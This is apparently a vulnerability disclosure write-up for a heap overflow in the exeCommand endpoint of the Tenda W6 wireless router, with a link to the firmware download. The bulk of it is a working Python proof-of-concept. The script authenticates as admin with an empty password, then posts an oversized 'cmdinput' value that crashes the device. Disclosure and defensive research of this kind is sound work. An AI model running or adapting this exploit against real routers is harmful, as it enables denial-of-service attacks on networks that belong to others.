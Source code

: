 # Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process

![image-20220707155204309](pic/image-20220707155204309.png)

A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *



burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video](./video/Tenda W6 堆溢出漏洞.mp4)
